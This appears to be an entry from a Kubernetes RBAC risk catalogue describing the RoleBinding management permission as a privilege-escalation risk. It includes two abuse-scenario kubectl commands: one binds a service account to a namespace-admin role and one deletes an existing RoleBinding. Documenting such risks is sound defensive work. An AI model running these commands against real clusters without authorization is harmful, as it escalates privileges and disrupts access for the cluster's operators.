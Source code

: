 ```yaml
---
id: 1030
title: "Manage RoleBindings in a namespace (create, update, patch, delete)"
description: "Allows creating, modifying, or deleting RoleBindings within a specific namespace. This enables an attacker to bind users, groups, or service accounts to Roles within that namespace. If a powerful ClusterRole is bound to a service account in the namespace, this can lead to privilege escalation."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field         | Value                                                                                                  |
| ------------- | ------------------------------------------------------------------------------------------------------ |
| ID            | 1030                                                                                                   |
| Name          | Manage RoleBindings in a namespace (create, update, patch, delete)                                     |
| Risk Category | Elevation of Privilege                                                                                 |
| Risk Level    | {{< risk High >}}                                                                                      |
| Role Type     | Role                                                                                                   |
| API Groups    | rbac.authorization.k8s.io                                                                              |
| Resources     | rolebindings                                                                                           |
| Verbs         | create, update, patch, delete                                                                          |
| Tags          | {{< tag "BindingToPrivilegedRole" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "RBACManipulation" >}} |

## Description

Allows creating, modifying, or deleting RoleBindings within a specific namespace. This enables an attacker to bind users, groups, or service accounts to Roles within that namespace. If a powerful ClusterRole is bound to a service account in the namespace, this can lead to privilege escalation.

## Abuse Scenarios

1. Create a RoleBinding to grant a service account full namespace admin.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: pwned-namespace-admin-binding
subjects:
- kind: ServiceAccount
  name: <serviceaccount-name>
  namespace: <namespace>
roleRef:
  kind: Role
  name: pwned-namespace-admin # Assuming 'pwned-namespace-admin' role exists
  apiGroup: rbac.authorization.k8s.io
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF (bind 'default' SA to 'pwned-namespace-admin' role)

```

2. Delete an existing RoleBinding, revoking namespaced permissions.

```bash
kubectl delete rolebinding <rolebinding-name> -n <namespace>
# Example: kubectl delete rolebinding my-app-reader-binding -n production

```
